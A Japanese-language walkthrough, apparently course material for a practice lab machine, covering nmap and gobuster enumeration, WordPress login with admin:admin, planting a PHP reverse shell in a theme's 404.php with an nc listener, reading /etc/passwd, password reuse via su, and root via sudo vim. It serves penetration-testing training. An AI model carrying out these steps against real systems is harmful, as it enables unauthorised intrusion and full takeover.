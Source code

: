 machine1で学べることは以下のことです。

簡単な認証突破
発見したクレデンシャルの使いまわし
sudoによる権限昇格
おすすめ視聴タイミング: ラボ攻略に取り掛かる前

### 攻略の流れ
#### Enumeration
nmapを用いてportscanを行います。
```
$ nmap machine1
 ```
オープンポートに対してより詳細なスキャンを行います。

-sCオプションではnmapのデフォルトスクリプトを動作させ、-sVオプションではサービスのバージョン情報などを取得します。
```
$ nmap -p22,80 -sC -sV machine1
```  
サービスの調査に移る前に、開いているポートの見落としを避けるためにフルポートスキャンをします。
```
$ nmap -p1-65535 machine1
```
フルポートスキャンには時間がかかることが多いので、スキャンをしながらapacheなどのサービスを調査します。

ブラウザでアクセスするとapacheのデフォルトページが表示され、ソースコードなどにも特に情報がないためgobusterを使ってディレクトリを列挙します。
```
$ gobuster dir -u http://machine1 -u /usr/share/wordlists/dirb/common.txt
```
wordpressというディレクトリが見つかったのでアクセスすると、wordpressで作成されたページが表示されます。

さらにgobusterを使ってディレクトリを列挙するとwordpressに関連するディレクトリがいくつか見つかります。
```
 $ gobuster dir -u http://machine1/wordpress -u /usr/share/wordlists/dirb/common.txt
 ```
wp-adminには一般的に管理者用のログインページが用意されているのでアクセスしてみると、ログイン画面が表示されます。

Initial Shell
管理者のパスワードは基本的に複雑なものになっていますが、内部のみに公開されているサービスなどのパスワードは簡単になっていることがあります。

`admin:admin`や`root:root`などでログインできないか検証すると、admin:adminでログインできました。

wordpressの管理者としてログインすることができたため、ページを改ざんしてリバースシェルを取得します。

コマンドではkali内部に保存されているウェブシェルをcatコマンドで出力し、xclipコマンドでクリップボードにいれています。
```
 $ cat /usr/share/webshells/php/php-reverse-shell.php | xclip -selection c
```  
ipアドレスとポート番号を変更したあと保存し、ncコマンドでリバースシェルを待ち受けてから改ざんしたページにアクセスします。

今回使用したテーマがtwenty-twentyで、ページは404.phpであるため、アクセスするurlは
```
http://machine1/wordpress/wp-content/themes/twenty-twenty/404.php
```
となります。

また、ncコマンドでシェルを待ち受ける際のコマンドは以下になります。
```
$ nc -lvnp 443
```
### Enumeration(権限昇格)
取得したリバースシェルは使い勝手が悪い(矢印キーが効かない、タブ補完してくれないなど)ため、シェルのアップグレードを行います。   
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
(Ctrl+z)    
$ stty raw -echo;fg   
(Enter)   
(Enter)   
$ export TERM=xterm   
```
ウェブアプリがデータベースを利用している場合、設定ファイルにデータベースユーザのユーザ名とパスワードが書き込まれている可能性があります。

wordpressの設定ファイルを調査するとconfig.phpというファイルが見つかり、その中からパスワードが見つかります。

パスワードは使いまわされていることがあるため、このパスワードを使って他のユーザに権限昇格できることがあります。

マシン上のユーザを列挙するため、/etc/passwdを確認します。
```
$ cat /etc/passwd
```  
developerというユーザが見つかったので、先ほどのパスワードを利用して権限昇格できないか確認します。

ユーザの変更はsuコマンドを使います。
```
$ su - developer
```
Privilege Escalation
一般ユーザにはsudoを用いてroot権限で実行できるコマンドがある場合があります。

developerがroot権限で実行できるアプリを列挙するためsudoコマンドを使います。
```
$ sudo -l
```
vimを使って権限昇格する方法を検索し、見つかった手法を実行するとrootになることができます。
```
$ sudo vim -c ':!/bin/sh'
```